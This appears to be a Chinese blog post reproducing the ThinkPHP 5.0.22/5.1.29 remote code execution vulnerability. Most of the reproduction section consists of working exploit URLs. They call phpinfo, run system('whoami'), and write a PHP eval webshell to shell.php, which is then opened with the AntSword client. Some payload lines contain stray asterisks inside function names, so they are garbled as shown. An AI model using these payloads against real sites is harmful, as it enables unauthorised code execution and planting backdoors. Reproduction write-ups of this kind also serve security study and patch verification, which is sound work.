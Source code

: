 ```yaml
---
title: ThinkPHP5 5.0.22/5.1.29 远程代码执行漏洞
date: 2020-06-13 20:59:28
categories: 漏洞复现
tags: ThinkPHP
---
```


####  背景

ThinkPHP是一款运用极广的PHP开发框架。其版本5中，由于没有正确处理控制器名，导致在网站没有开启强制路由的情况下（即默认情况下）可以执行任意方法，从而导致远程命令执行漏洞。

<!--more-->

#### 复现过程

##### phpinfo信息

```http
http://your-ip:8080/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1
```



![](http://cdn.laohuan.art/2020-06-13_17-32-26.png)

##### 远程命令执行

```http
http://ip:端口/index.php?s=index/think\app/invokefunction&function=call*_user_*func_array&vars[0]=system&vars[1][]=whoami
```



![](http://cdn.laohuan.art/2020-06-13_17-35-46.png)

##### 写shell

1.先将一句话马进行url编码

```
%3c%3fphp+eval(%24_POST%5b123%5d)+%3f%3e
```

2.POC

```
http://IP:端口/index.php?s=/index/\think\app/invokefunction&function=call*_user_*func*_array&vars[0]=file_*put_contents&vars[1][]=shell.php&vars[1][]=%3c%3fphp+eval(%24_POST%5b123%5d)+%3f%3e
```



![](http://cdn.laohuan.art/2020-06-13_20-50-06.png)

3.蚁剑连接

`http://IP:端口/shell.php`

![](http://cdn.laohuan.art/2020-06-13_20-54-13.png)

#### 参考链接

<https://www.cnblogs.com/bmjoker/p/10110868.html/>